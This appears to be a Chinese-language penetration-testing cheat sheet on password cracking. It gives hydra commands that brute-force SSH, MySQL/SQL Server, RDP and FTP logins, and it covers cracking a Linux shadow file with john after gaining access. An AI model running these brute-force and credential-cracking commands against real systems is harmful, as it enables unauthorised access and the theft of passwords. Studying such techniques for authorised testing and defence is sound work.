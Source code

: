 #### linux口令破解

分为远程破解和本地破解，远程破解主要是爆破ssh服务，属于在线密码攻击。本地拿到linux的shadow文件，进行hash值破解，属于离线密码攻击。

1. 破解SSH服务

   使用hydra攻击ssh服务，hydra攻击已经集成在kali虚拟机中，命令如下：

   hydra -L /root/dic/user.dic -P /root/dic/pass.dic ssh://192.168.1.100 -f -vV -t 64 -e nsr -o linux.pass

2. 本地shadow文件破解，首选要获得目标系统的权限，能读取到shadow文件

   使用john工具，破解shadow密码文件，已集成在kali中，需要准备字典

   john shadow

#### 网络服务口令破解

1. 破解mysql口令，sql_server2000

   hydra -l sa -P /root/dic/test_pwd.dic 10.10.20.87 mysql -vV

2. 破解RDP远程桌面

   hydra -l administrator -P /root/dic/test_pwd.dic 192.168.18.123 rdp -vV

3. 破解FTP

   hydra -L /root/dic/test_user.dic -P /root/dic/test_pwd.dic 10.10.20.81 ftp -vV